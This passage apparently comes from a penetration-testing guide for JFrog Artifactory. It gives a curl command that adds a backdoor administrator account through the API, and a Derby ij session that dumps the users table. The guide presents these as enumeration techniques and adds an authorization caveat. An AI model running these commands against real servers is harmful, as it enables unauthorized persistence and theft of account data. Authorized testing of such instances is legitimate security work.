 ### 7. **Creating a Secondary Administrator Account**
If you have sufficient permissions, you could add a new administrator account via the API.

```bash
curl -b cookies.txt -X POST -H "X-JFrog-Art-Api:$access_token" -H "Content-Type: application/json" -d '{
  "name": "newadmin",
  "email": "newadmin@example.com",
  "password": "Password123!",
  "groups": ["admins"]
}' "http://<artifactory_url>/ui/api/v1/ui/users"
```

### 8. **Handling the Default Derby Database**
If you discover Artifactory is using the default Derby database, you could potentially enumerate users by interacting directly with the database or querying the Artifactory API if access controls are lax.

#### Querying the Derby Database (Example):
If you have direct access to the Derby database, you can use JDBC tools to enumerate users.

```bash
# Using a JDBC tool to interact with the Derby database
java -cp /path/to/derby.jar:/path/to/derbytools.jar org.apache.derby.tools.ij <<EOF
CONNECT 'jdbc:derby:/path/to/artifactory/db;user=<db_user>;password=<db_password>';
SELECT * FROM users;
EOF
```

### Conclusion
This approach allows for comprehensive enumeration of an Artifactory instance by leveraging the API and exploiting any misconfigurations or exposed sensitive data. Scripts like these should be used carefully and ethically, ensuring you have proper authorization to conduct such activities.